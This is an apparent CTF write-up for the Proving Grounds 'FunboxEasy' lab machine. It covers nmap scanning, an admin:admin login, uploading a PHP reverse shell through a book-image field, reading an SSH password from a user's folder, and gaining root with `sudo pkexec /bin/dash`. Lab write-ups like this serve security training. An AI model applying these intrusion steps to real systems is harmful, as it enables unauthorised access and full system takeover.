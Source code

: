 ```yaml
---
title: "Proving grounds Play: FunboxEasy"
layout: post
date: 2023-09-16 01:00
categories: writeup
---
```


Proving grounds Play - FunboxEasy CTF writeup.

## Nmap

```sh
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b2d8516ec584051908ebc8582713132f (RSA)
|   256 b0de9703a72ff4e2ab4a9cd9439b8a48 (ECDSA)
|_  256 9d0f9a26384f0180a7a6809dd1d4cfec (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
| http-robots.txt: 1 disallowed entry 
|_gym
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|_    HY000
```

## Web PORT: 80

### Directory Fuzzing

![img](/assets/images/CTF/Proving_Grounds/FunboxEasy/web.png)

http://192.168.169.111/store/

## Admin Login

http://192.168.169.111/store/admin.php

Use credentials `admin:admin` for the admin login.

## Upload Reverse Shell

Click Add new book and upload php reverse shell on the image section and post the book.

Direct to the books page to trigger reverse shell.

![img](/assets/images/CTF/Proving_Grounds/FunboxEasy/shell.png)

A file named `password.txt` located in the user `tony` folder has password of SSH login.

## Privilege Esclation

Login to user tony via SSH using the credentials and run `sudo -l` to check the permissions.

```sh
tony@funbox3:~$ sudo -l
User tony may run the following commands on funbox3:
    (root) NOPASSWD: /usr/bin/yelp
    (root) NOPASSWD: /usr/bin/dmf
    (root) NOPASSWD: /usr/bin/whois
    (root) NOPASSWD: /usr/bin/rlogin
    (root) NOPASSWD: /usr/bin/pkexec
    (root) NOPASSWD: /usr/bin/mtr
    (root) NOPASSWD: /usr/bin/finger
    (root) NOPASSWD: /usr/bin/time
    (root) NOPASSWD: /usr/bin/cancel
    (root) NOPASSWD: /root/a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/q/r/s/t/u/v/w/x/y/z/.smile.sh
```

**GTFO Bins Exploit**

![img](/assets/images/CTF/Proving_Grounds/FunboxEasy/gtfo.png)

Alternatively the root privilege can be elevated via the `pkexec` binary as well.

```sh
sudo pkexec /bin/dash
```

**Root Obtained**

![img](/assets/images/CTF/Proving_Grounds/FunboxEasy/root.png)

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).